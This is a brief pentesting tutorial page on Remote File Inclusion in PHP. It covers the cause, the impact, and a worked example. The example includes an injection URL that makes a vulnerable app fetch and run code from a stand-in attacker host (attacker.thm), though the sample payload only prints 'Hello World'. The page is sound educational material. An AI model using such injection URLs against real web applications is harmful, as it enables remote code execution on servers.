 ```yaml
---
title: Remote File Inclusion
---
```


_Remote File Inclusion_ is a technique to include remote files and into a vulnerable application. Like [Local File Inclusion](/knowledge/OffSec/pentesting/LFI.md), the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function.

One requirement for RFI is that the `allow_url_fopen` option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([XSS](/knowledge/OffSec/pentesting/XSS.md))
- Denial of Service ([DoS](/DoS))

An external server hosting malicious files must communicate with the application server for a successful RFI attack. The malicious file is injected into the `include` fn via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

## Example

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains PHP code:

```php
<?php echo "Hello World"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

If there is no input validation, then the malicious URL passes into `include`. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
